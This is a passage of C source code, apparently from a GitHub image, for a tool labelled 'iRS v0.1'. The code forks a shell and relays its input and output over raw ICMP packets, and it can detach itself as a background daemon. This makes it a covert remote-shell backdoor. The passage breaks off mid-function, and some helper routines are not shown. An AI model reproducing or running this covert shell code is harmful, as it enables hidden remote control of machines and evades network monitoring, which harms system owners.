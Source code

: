 ```C
//
// Instead of feeding data into our shell directly from the network,
// function is used to send/receive data using the counterpart socket
// provided by socketpair.
void
secure_shell (int s)
{
        pid_t pid;
        int sp[2];

        /* Create a socketpair to talk to the child process */
        if ((socketpair (AF_UNIX, SOCK_STREAM, 0, sp)) < 0)
        {
                perror ("socketpair:");
                exit (1);
        }

        /* Fork a shell */
        if ((pid = fork ()) < 0)
        {
                perror ("fork:");
                exit (1);
        }
        else
        if (!pid) /* Child Process */
        {
                close (sp[1]);
                close (s);

                start_shell (sp[0]);
                /* This function will never return */
        }

        /* At this point we are the father process */
        close (sp[0]);
#ifdef VERBOSE
        printf ("+ Starting async read loop\n");
#endif
        net_write (s, "iRS v0.1\n", 9);
        async_read (s, sp[1]);

}

int
main (int argc, char *argv[])
{
        int i =1;
        /* FIXME: Check command-line arguments */
        /* Go daemon ()*/

        // Assign function pointers
        net_read = net_read_icmp;
        net_write = net_write_icmp;

        if (argv[i][0] == 'd')
        {
                i++;
                daemon (0,0);
        }

        if (argv[i][0] == 's')
                secure_shell (raw_init (argv[i+1], IPPROTO_ICMP));
        else if (argv[i][0] == 'c')
```